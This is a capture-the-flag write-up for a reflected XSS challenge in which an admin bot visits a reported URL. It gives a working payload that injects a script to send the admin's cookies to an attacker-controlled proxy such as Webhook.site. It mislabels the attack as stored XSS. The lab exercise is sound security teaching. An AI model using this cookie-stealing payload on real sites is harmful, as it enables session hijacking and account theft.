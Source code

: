 # XSS1
## Description
In this challenge the user can report a URL to the admin of the server (in this case, the admin is just a bot that follows the link).
The flag is a cookie inside the admin's browser.

## Exploit
The type of exploit to use is self-explanatory, given the title of the challenge. Using the test textbox, and checking with the DevTools, the content of the textbox (which is sent as a param of a GET request) is directly injected in the ```<body>``` tag.
A way to exploit this would be to send at the admin a malicious URL, which redirects the admin to a reverse proxy and sending as a param of the request the cookies of the admin (a stored XSS, basically).
The payload I used is: ```http://xss1.challs.cyberchallenge.it/?html=%3Cscript%3Edocument.location=%22<your_proxy_url>?admin=%22%2Bdocument.cookie%3C/script%3E``` (the proxy I used is [Webhook.site](https://www.webhook.site/), but [ngrok](https://www.ngrok.com) is also valid).
As you can see, the admin loads its own page injected with this (URL decoded)script: ```http://xss1.challs.cyberchallenge.it/?html=<script>document.location="<your_proxy_url>?admin="+document.cookie</script>```, which redirects the admin to the proxy, with the admin's cookies as the "admin" param.
The flag will be in your proxy console, as an incoming request.

